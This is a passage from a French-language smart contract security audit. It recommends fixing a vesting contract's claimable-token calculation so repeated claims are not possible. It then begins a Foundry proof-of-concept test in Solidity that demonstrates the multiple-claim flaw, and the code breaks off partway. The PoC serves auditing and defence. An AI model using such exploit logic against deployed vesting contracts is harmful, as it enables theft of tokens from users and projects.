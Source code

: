 ##### Recommandation

Il est impératif de mettre à jour le calcul des tokens récupérables en prenant en compte soit la dernière date de `claim()` ou en prenant en compte le total de tokens déjà réclamés sur l'ensemble du vesting, puis de soustraire ce montant au calcul actuel.

##### PoC de l'attaque

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "forge-std/Test.sol";
import "../../contracts/Vesting.sol";
import "../../contracts/XXX.sol";

contract VestingPoCTest is Test {
    Vesting internal vestingContract;
    XXX internal XXX;

    struct Allocation {
        uint256 duration;
        uint256 amount;
        uint256 tgeAmount;
    }

    function setUp() public {
        XXX = new XXX();
        vestingContract = new Vesting(address(XXX), 365 days);

        uint256 transferAmount = 500_000_000 * 10e18;
        XXX.transferFromContract(
            address(vestingContract),
            transferAmount
        );

        bytes32 MANAGER_ROLE = vestingContract.MANAGER_ROLE();
        vestingContract.grantRole(MANAGER_ROLE, address(this));
    }

    function test_ClaimingMultipleTimesAtOnce_scenario() public {
        address vester = makeAddr("vester");
        uint256 amount = 100_000 * 10e18;
        uint256 tgeAmount = (amount * 5) / 100; // 5% of amount

        vestingContract.startVesting();
        vestingContract.setAllocationToUser(
            vester,
            amount,
            100 days,
            tgeAmount
        );
        /// `cliffPeriod` is 90 days, so the user can't claim before 90 days.
        /// Vesting duration is 100 days, so the user can claim 1% of vesting each day.

        /// @dev Should not be able to claim before cliff period.
        vm.warp(block.timestamp + 89 days);
        vm.expectRevert();
        vestingContract.claim(vester);

        /// @dev The first day, the caller should get 0 tokens from his vesting,
        /// But he should get his TGE amount.
        vm.warp(block.timestamp + 1 days);
        vestingContract.claim(vester);
```